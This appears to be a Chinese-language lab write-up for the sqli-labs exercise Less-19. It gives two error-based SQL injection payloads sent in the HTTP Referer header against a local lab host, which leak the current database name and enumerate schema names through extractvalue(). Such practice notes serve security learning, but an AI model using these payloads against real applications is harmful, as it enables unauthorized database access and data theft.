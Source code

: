 ### 注入流程-Less-19

#### 查看当前数据库

```
Referer: http://192.168.231.129:9001/Less-19/' and extractvalue(1,concat(0x7e, (select database()))), '2')#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606233901505.png" alt="image-20230606233901505" style="zoom:50%;" />

#### 爆库

```
Referer: http://192.168.231.129:9001/Less-19/' and extractvalue(1,concat(0x7e, (select schema_name from information_schema.schemata limit 4,1))), '2')#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230606234013256.png" alt="image-20230606234013256" style="zoom:50%;" />
